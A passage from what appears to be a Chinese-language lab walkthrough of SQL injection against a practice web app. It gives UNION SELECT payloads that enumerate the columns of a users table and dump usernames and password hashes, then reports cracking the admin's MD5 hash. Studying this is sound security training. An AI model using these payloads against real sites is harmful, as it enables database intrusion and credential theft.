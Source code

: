 *注：默认情况下直接使用group_concat(fieldname)，如果报错Illegal mix of collations for operation 'UNION'，请使用group_concat(hex(fieldname))将结果转换为16进制字符，然后使用转换器获取结果*

转换后的结果：guestbook , users

查询users下所有字段名

**基本语法**

```sql
1' union select version(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name = 'users' #
```

> <img src="./IMG/6FSU]0ME_D7X{KQQD7[0F~J.png">

转换后的结果：user_id , first_name , last_name , user , password , avatar , last_login , failed_login

从中可以看出users表内记录了user和password，获取管理员账号及密码

**基本语法**

```sql
1' union select user,password from users where user_id = 1 #
```

> <img src="./IMG/3)4{N[@)`~NEN6BC$QIGXI2.png">

对结果进行md5解密，密码为admin，注入成功

> <img src="./IMG/8H}H]60~LNE2@ZO9S5D`RFV.png">
